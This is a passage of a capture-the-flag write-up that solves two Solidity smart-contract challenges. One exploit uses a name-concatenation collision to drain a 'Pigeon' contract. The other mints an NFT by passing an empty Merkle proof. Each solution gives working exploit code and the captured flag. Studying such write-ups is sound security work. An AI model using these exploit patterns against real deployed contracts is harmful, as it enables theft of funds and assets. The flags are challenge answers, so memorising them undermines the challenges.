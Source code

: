 Two pigeons whose `(code,name)` is `(Numbuh,5)` and `(Numbu,h5)` will have the same code name.
This can be used to exploit the following.

```solidity
contract ExploitPigeon {
    constructor(address pigeonAddress, string memory code, string memory name) {
        Pigeon pigeon = Pigeon(pigeonAddress);
        bytes32 codeName = pigeon.becomeAPigeon(code, name);
        pigeon.flyAway(codeName, 0);
        msg.sender.call{value: address(this).balance}("");
    }
}

contract Exploit {
    address ownerAddress;

    function exploit(address pigeonAddress) public {
        ownerAddress = msg.sender;
        new ExploitPigeon(pigeonAddress, "Numbu", "h5");
        new ExploitPigeon(pigeonAddress, "Numbu", "h3");
        new ExploitPigeon(pigeonAddress, "Numbu", "h1");
    }

    receive() external payable {
        ownerAddress.call{value: address(this).balance}("");
    }
}

```

Flag: `SEE{c00_c00_5py_squ4d_1n_act10n_9fbd82843dced19ebb7ee530b540bf93}`

## Murky SEEPass (14 solves)

>The SEE team has a list of special NFTs that are only allowed to be minted. Find out which one its allowed!
>
>nc win.the.seetf.sg 8546

The goal of this challenge is to mint the ERC721 token, `SEEPass`.

Minting is done by `MerkleProof` validation, but there is no check for the zero length of the `proof` array.

```solidity
contract ExploitScript is Script {
    function run() public {
        address setUpContractAddress = 0x498cB506f7505A7aBd5D95d43A5bED2C50D72BC5;
        Setup setup = Setup(setUpContractAddress);
        bytes32 root = vm.load(address(setup.pass()), bytes32(uint256(6)));
        bytes32[] memory proof = new bytes32[](0);

        vm.startBroadcast();
        setup.pass().mintSeePass(proof, uint256(root));
        vm.stopBroadcast();
    }
}
```

Flag: `SEE{w3lc0me_t0_dA_NFT_w0rld_w1th_SE3pAs5_f3a794cf4f4dd14f9cc7f6a25f61e232}`